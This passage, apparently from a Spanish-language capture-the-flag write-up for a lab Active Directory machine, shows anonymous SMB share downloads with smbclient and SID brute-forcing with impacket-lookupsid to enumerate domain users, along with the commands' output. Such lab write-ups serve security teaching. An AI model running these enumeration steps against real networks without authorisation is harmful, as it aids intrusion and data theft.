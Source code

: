 Cuando vemos que carpetas esta compartidas procedemos a descargar todo el contenido que contienen las mismas en busca de posibles usuarios[recurse, prompt, mget](https://www.computerhope.com/unix/smbclien.htm):

```bash
smbclient //10.10.45.157/VulnNet-Business-Anonymous
Enter WORKGROUP\b3nj1's password: 
Try "help" to get a list of possible commands.
smb: \> recurse on 
smb: \> prompt off
smb: \> mget *
getting file \Business-Manager.txt of size 758 as Business-Manager.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \Business-Sections.txt of size 654 as Business-Sections.txt (0.4 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \Business-Tracking.txt of size 471 as Business-Tracking.txt (0.4 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> exit
```

```bash
smbclient //10.10.45.157/VulnNet-Enterprise-Anonymous
Enter WORKGROUP\b3nj1's password: 
Try "help" to get a list of possible commands.
smb: \> recurse on
smb: \> prompt off 
smb: \> mget *
getting file \Enterprise-Operations.txt of size 467 as Enterprise-Operations.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \Enterprise-Safety.txt of size 503 as Enterprise-Safety.txt (0.5 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \Enterprise-Sync.txt of size 496 as Enterprise-Sync.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> 
```

### Lookupsid

Otra alternativa para enumerar los usuarios seria por el protocolo [rpc](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) esto basicamente lo que me permite es realizar bruteforcing de los SID de Windows para identificar usuarios / grupos en el objetivo remoto:

```bash
impacket-lookupsid vulnnet-rst.local/guest:@10.10.45.157

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[] Brute forcing SIDs at 10.10.45.157
[] StringBinding ncacn_np:10.10.45.157[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
```